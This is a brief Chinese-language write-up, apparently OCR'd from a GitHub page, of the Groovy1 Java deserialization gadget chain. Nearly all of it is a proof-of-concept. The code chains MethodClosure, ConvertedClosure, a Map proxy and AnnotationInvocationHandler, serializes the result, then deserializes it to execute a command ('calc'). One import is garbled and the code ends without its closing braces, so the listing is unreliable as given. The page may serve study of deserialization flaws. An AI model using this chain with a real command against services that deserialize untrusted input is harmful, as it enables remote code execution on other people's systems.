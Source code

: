 # 	Groovy1

Groovy 是一种基于 JVM 的开发语言，具有类似于 Python，Ruby，Perl 和 Smalltalk 的功能。Groovy 既可以用作 Java 平台的编程语言，也可以用作脚本语言。groovy 编译之后生成 .class 文件，与 Java 编译生成的无异，因此可以在 JVM 上运行。

在项目中可以引用 Groovy 的相关包依赖，分为核心包和模块包，如果想依赖全部包，可以使用 groovy-all。本条利用 Gadget 就是在 groovy 核心包中。

## POC

```java
import java.io.*;
import java.lang.reflect.Array;
import java.lang.reflect.Proxy;
import java.util.Map;
import java.lang.reflect.C  onstructor;
import java.lang.annotation.Retention;

import org.codehaus.groovy.runtime.ConvertedClosure;
import org.codehaus.groovy.runtime.MethodClosure;

public class Groovy {

    static String command = "calc";

    public static void main(String[] args){
        // write object
        try{
            MethodClosure methodClosure = new MethodClosure(command,"execute");
            final ConvertedClosure closure = new ConvertedClosure(methodClosure,"entrySet");
            Class<?>[] allInterfaces = (Class<?>[]) Array.newInstance(Class.class,1);
            allInterfaces[0] = Map.class;
            Object o = Proxy.newProxyInstance(Groovy.class.getClassLoader(), allInterfaces, closure);

            final Map map=Map.class.cast(o);
//            map.entrySet().iterator();

            Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
            ctor.setAccessible(true);
            Object instance = ctor.newInstance(Retention.class, map);

            ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("groovy2.obj"));
            //ObjectOutputStream能把Object输出成Byte流
            oos.writeObject(instance);//序列化关键函数
            oos.flush();  //缓冲流
            oos.close(); //关闭流
        }catch (Exception e)
        {
            e.printStackTrace();
        }


        // load object
        try {
            File file = new File("groovy2.obj");
            ObjectInputStream ois= new ObjectInputStream(new FileInputStream(file));
            Object x = ois.readObject();//反序列化的关键函数
            System.out.print(x);
            ois.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
```